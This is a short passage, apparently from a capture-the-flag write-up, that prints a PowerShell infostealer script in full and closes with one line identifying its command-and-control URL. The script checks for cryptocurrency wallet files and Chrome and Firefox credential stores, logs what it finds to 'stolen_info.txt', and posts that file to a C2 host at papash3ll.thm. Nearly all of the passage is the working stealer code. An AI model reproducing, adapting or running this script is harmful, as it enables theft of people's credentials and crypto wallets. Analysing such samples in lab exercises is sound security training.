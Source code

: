 ```powershell

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

When we read carefullly the script we can see., that `http://papash3ll.thm/data"` is the C2 Server.
